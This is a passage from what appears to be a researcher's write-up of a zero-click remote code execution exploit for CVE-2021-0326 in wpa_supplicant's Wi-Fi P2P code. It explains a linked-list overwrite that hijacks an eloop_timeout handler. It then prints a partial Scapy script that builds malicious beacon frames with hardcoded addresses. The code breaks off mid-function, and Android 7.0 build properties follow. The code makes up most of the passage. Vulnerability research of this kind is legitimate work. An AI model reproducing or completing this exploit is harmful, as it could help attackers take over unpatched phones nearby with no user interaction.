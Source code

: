 A `list` is terminated when the current `item.next` is back at the address of the `list` itself. Therefore in order to insert a new entry with the overwrite, `next` needs to point to our new fake entry and `prev` must still point to `list`, which here is `0x55556fc6b0` an address in the static variable `eloop` in the main module. Next our fake entry, made from the contents of another `wps_vendor_ext`, starts with a `dl_list` which has a `next` that points to `0x55556fc6b0` and a `prev` that points to `0x7fb743d1c0`. This constitutes a valid chain of `dl_list` entries so that the `eloop_timeout` functions will not crash before reaching the `handler` function pointer in our fake entry. At this point it is time to show the finished exploit

```
from scapy.all import *
import argparse

desc = """
Skeleton (but pronounced like Peloton):
A 0-click RCE exploit for CVE-2021-0326

Austin Emmitt of Nowsecure (@alkalinesec)
"""

parser = argparse.ArgumentParser(description=desc,
    formatter_class=argparse.RawTextHelpFormatter)

parser.add_argument('-i', dest='interface', required=True,
    help='network interface in monitor mode')
parser.add_argument('-t', dest='target', required=True, 
    help='target MAC address')
args = parser.parse_args()

iface = args.interface        # interface in monitor mode
target = args.target          # target MAC address

base  = 0x5555555000          # base address of main module
eloop = 0x7fb743d1c0          # eloop_timeout address
p2    = 0x7fb742e500          # second part of payload

eloop_next = base + 0x1a76b0  # eloop next (&list terminates)
wpa_printf = base + 0x1a938   # addr of wpa_printf

msg = b"hi :)"                # log on success (< 8 bytes)
frees = [eloop-0x20]          # list of addrs to free (up to 10)
sec_devs = 0x12+len(frees)    # number of secondary device types

p64 = lambda x: struct.pack("<Q", x)

def build_beacon(dev_mac, client_mac):
    group = (
        client_mac + b"CCCCCC\xffDDEEEEEEEE" +  # p2p client information
        struct.pack("<B", sec_devs) +           # secondary dev count
        b"\x00"*(sec_devs*8-8*len(frees)-4) +   # nulls to fill up sec devs
        b"".join(p64(x) for x in frees) +       # addresses to be freed
        b"\x00\x00\x00\x00\x10\x11\x00\x00")    # empty device name 

    group = struct.pack("<B", len(group)) + group # p2p group info 
    p2p = Dot11EltVendorSpecific(oui=0x506f9a, info=(
        b"\x09\x03\x06\x00" + dev_mac +          # p2p device id, group info
        b"\x0e" +                                # p2p group info identifier
        struct.pack("<H", len(group)) + group))  # len of group info 

    ext_data1 = (
        p64(p2) +          # next: address of ext_data2
        p64(eloop_next) +  # previous: address of terminator
        b"\x00"*16)        # times filled with 00 so it doesn't reorder

```

[ro.build.version.release]: [7.0]
[ro.build.version.sdk]: [24]
[ro.build.version.security_patch]: [2019-08-05]